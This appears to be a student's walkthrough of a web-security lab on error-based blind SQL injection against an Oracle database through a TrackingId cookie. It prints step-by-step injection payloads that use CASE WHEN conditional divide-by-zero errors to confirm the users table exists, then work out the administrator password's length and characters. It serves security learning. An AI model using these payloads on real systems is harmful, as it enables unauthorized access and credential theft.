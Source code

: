 # Blind SQL injection with conditional errors
- Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database
- The possibilities depend largely on the configuration of the database and the types of errors you're able to trigger
- may be able to induce the application to return a specific error response based on the result of a boolean expression
- may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into "visible" ones
- it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally,
- This involves modifying the query so that it will cause a database error if the condition is true
- but not if the condition is false
- Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message)
- allowing us to infer the truth of the injected condition
# Lab
- blind SQL injection vulnerability
- uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- the application does not respond any differently based on whether the query returns any rows
- If the SQL query causes an error, then the application returns a custom error message
- The database contains a different table called users, with columns called username and password
# Goal 
- find Administartor password
- log in as administartor
# Solving The lab
- Visit the front page of the shop
- intercept and modify the request containing the TrackingId cookie
- Modify the TrackingId cookie, appending a single quotation mark to it
```
TrackingId=xyz'
```
- we see internal server error
- Now change it to two quotation marks and the error disappears
- to confirm that the server is interpreting the injection as a SQL query ,that the error is a SQL syntax error as opposed to any other kind of error
- first need to construct a subquery using valid SQL syntax
```
TrackingId=xyz'||(SELECT '')||'
```
- query still appears to be invalid maybe we are dealing with oracle db so we need to inserf from caluse
```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
- query look valid and we got a 200 response
- now submitting an invalid query while still preserving valid SQL syntax
```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```
- we got internal server error
- can use this error response to infer key information about the database. For example, in order to verify that the users table exists
```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
- WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row
- we confirmed that users table exists because we got internal server error
- now exploit this behavior to test conditions
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
- an error message is received
- Now change it
```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
- the error disappears so we can trigger an error conditionally on the truth of a specific condition
- The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false.
- former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true
- can use this behavior to test whether specific entries exist in a table
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- in sql the from clause executes first so in the above query it checks if the administartor is the users db then the select statment executes and we should get an error
- now to determine how many characters are in the password of the administrator user.
```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- and iterate the process till we got 20 on 21 no error displays which means the password is shorter than 21
- now to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder.
- In the Positions tab of Burp Intruder, change the value of the cookie to
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
- SUBSTR() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn
